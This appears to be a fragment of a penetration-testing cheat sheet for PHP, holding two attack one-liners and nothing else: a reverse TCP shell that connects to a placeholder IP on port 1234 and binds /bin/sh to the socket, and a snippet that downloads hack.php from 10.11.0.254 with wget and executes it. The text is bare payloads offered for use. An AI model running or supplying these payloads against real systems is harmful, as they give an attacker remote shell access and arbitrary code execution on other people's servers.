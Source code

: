 # PHP

## Reverse TCP
php -r '$sock=fsockopen("xx.xx.xx.xx",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

## BSD download and execute php.

\<\?php shell_exec("/usr/local/bin/wget -P /tmp 10.11.0.254/hack.php; /usr/local/bin/php /tmp/hack.php");\?\>

